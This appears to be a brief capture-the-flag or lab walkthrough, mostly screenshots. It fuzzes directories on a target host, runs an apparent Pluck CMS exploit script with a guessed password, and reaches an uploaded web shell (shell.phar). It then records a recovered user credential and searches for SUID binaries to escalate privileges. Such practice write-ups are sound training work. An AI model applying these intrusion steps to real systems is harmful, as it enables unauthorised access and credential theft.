 62.173.140.174:18000

![image](https://user-images.githubusercontent.com/62753044/232470451-dc12ae4f-c0ad-4eea-9330-2185711e60fc.png)

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://62.173.140.174:18000/FUZZ.php

![image](https://user-images.githubusercontent.com/62753044/232470497-7b480313-30a0-4879-a9ca-37ae333b8f88.png)

https://www.exploit-db.com/

![image](https://user-images.githubusercontent.com/62753044/232470532-377d213e-3613-422f-aae1-80e05482bda5.png)

![image](https://user-images.githubusercontent.com/62753044/232470554-d0c0698a-09fd-4736-96dc-aa0d2ddeec97.png)

![image](https://user-images.githubusercontent.com/62753044/232470562-9bc477bf-a32d-4463-941b-c3b7a7cf7306.png)

![image](https://user-images.githubusercontent.com/62753044/232470572-9649635e-19f9-48b5-a5a9-5bb9157d3471.png)

python3 pluck.py 62.173.140.174 18000 liverpool ""

![image](https://user-images.githubusercontent.com/62753044/232470608-b779d938-00d2-4476-831d-eefdd7a53707.png)

http://62.173.140.174:18000/files/shell.phar

![image](https://user-images.githubusercontent.com/62753044/232474643-5a385d43-d50c-435c-8ae2-de6178742d6c.png)

![image](https://user-images.githubusercontent.com/62753044/232474961-ca2edc00-f685-49af-92a0-09ba6cdd80ea.png)

![image](https://user-images.githubusercontent.com/62753044/232475153-64a9d3a6-963d-4f99-b7de-9706b7a603d1.png)

john:j0hnl0v3c0d3by

![image](https://user-images.githubusercontent.com/62753044/232475687-4d38cde6-01b5-4c68-bf2c-ae6e52301aa6.png)

![image](https://user-images.githubusercontent.com/62753044/232470645-8a389a66-130a-4638-a106-f03117839217.png)

find / -user root -perm -4000 -print 2>/dev/null

![image](https://user-images.githubusercontent.com/62753044/232470696-90df487f-fb18-46ce-af41-71edefcf2321.png)

![image](https://user-images.githubusercontent.com/62753044/232472019-89153e96-0a60-4445-bc7f-90ca95d223bb.png)

![image](https://user-images.githubusercontent.com/62753044/232472463-03194abf-c54b-490f-ba9d-fd53099fdb69.png)

![image](https://user-images.githubusercontent.com/62753044/232472878-e784c124-ce40-4b6c-9fe9-442e0331e55d.png)

![image](https://user-images.githubusercontent.com/62753044/232473124-74a86f98-ba36-4f10-9ec0-cb6e76415e2e.png)


